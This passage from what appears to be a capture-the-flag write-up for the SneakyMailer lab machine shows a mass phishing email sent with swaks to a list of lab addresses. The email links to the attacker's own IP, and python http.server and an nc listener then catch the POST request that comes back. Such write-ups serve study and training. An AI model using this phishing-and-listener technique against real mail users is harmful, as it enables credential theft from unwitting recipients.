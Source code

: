     eakymailer.htb,angelicaramos@sneakymailer.htb,gavinjoyce@sneakymailer.htb,jenniferchang@sneakymailer.htb,brendenwagner@sneakymailer.htb,fionagreen@sneakymailer.htb,shouitou@sneakymailer.htb,michellehouse@sneakymailer.htb,sukiburks@snea
    kymailer.htb,prescottbartlett@sneakymailer.htb,gavincortez@sneakymailer.htb,martenamccray@sneakymailer.htb,unitybutler@sneakymailer.htb,howardhatfield@sneakymailer.htb,hopefuentes@sneakymailer.htb,vivianharrell@sneakymailer.htb,timothy
    mooney@sneakymailer.htb,jacksonbradshaw@sneakymailer.htb,olivialiang@sneakymailer.htb,brunonash@sneakymailer.htb,sakurayamamoto@sneakymailer.htb,thorwalton@sneakymailer.htb,finncamacho@sneakymailer.htb,sergebaldwin@sneakymailer.htb,zen
    aidafrank@sneakymailer.htb,zoritaserrano@sneakymailer.htb,jenniferacosta@sneakymailer.htb,carastevens@sneakymailer.htb,hermionebutler@sneakymailer.htb,laelgreer@sneakymailer.htb,jonasalexander@sneakymailer.htb,shaddecker@sneakymailer.h
    tb,sulcud@sneakymailer.htb,donnasnider@sneakymailer.htb,
     -> From: test@sneakymailer.htb
     -> Subject: test
     -> Message-Id: <20200712105555.099308@kali>
     -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
     -> 
     -> please click here http://10.10.14.42/
     -> 
     -> 
     -> .
    <-  250 2.0.0 Ok: queued as 5143C24808
     -> QUIT
    <-  221 2.0.0 Bye
    === Connection closed with remote host.
    

The body of my email is a link to myself. I’ll have Python’s `http.server`
module listening. Strangely, a POST request comes back:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.197 - - [12/Jul/2020 10:51:01] code 501, message Unsupported method ('POST')
    10.10.10.197 - - [12/Jul/2020 10:51:01] "POST / HTTP/1.1" 501 -
    

I stopped that and opened `nc` on port 80 to catch the request, and sent the
phish again:

    
    
    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:58924.
    POST / HTTP/1.1
    Host: 10.10.14.42
    User-Agent: python-requests/2.23.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-Length: 185
    Content-Type: application/x-www-form-urlencoded
    
